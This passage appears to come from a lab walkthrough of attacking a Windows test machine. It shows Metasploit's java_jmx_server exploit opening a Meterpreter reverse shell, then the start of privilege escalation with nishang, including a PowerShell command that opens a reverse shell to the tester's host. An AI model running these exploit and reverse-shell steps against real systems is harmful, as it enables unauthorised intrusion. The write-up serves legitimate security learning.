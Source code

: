 ```none
Exploit target:

   Id  Name
   --  ----
   0   Generic (Java Payload)


msf5 exploit(multi/misc/java_jmx_server) > exploit

[*] Started reverse TCP handler on 192.168.254.145:4444
[*] 172.28.128.4:1617 - Using URL: http://0.0.0.0:8080/RMfarTo
[*] 172.28.128.4:1617 - Local IP: http://192.168.254.145:8080/RMfarTo
[*] 172.28.128.4:1617 - Sending RMI Header...
[*] 172.28.128.4:1617 - Discovering the JMXRMI endpoint...
[+] 172.28.128.4:1617 - JMXRMI endpoint on 172.28.128.4:49198
[*] 172.28.128.4:1617 - Proceeding with handshake...
[+] 172.28.128.4:1617 - Handshake with JMX MBean server on 172.28.128.4:49198
[*] 172.28.128.4:1617 - Loading payload...
[*] 172.28.128.4:1617 - Replied to request for mlet
[*] 172.28.128.4:1617 - Replied to request for payload JAR
[*] 172.28.128.4:1617 - Executing payload...
[*] Sending stage (53944 bytes) to 192.168.254.145
[*] Meterpreter session 1 opened (192.168.254.145:4444 -> 192.168.254.145:34070) at 2020-09-01 14:06:37 -0400

meterpreter > getuid
Server username: LOCAL SERVICE
```

At this point, my goal was to escalate my privileges from `LOCAL SERVICE` to `LOCAL SYSTEM`.


## Privilege Escalation

From a meterpreter session, I normally like to escalate my privileges to a powershell session with the [nishang](https://github.com/samratashok/nishang) post exploitation framework since I find it easier to navigate Windows systems with powershell rather than dos. If you are running kali linux, you can install it with the following command:

```bash
sudo apt install nishang
```

You should be able to find the nishang post exploitation framework under `/usr/share/nishang`.

I normally modify and use the `Invoke-PowerShellTcp.ps1` script from nishang to get a powershell reverse shell. I appended the following line to `Invoke-PowerShellTcp.ps1` so that executing the powershell script would invoke it:

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 172.28.128.1 -Port 2001
```

Next, I uploaded the script via my meterpreter session:
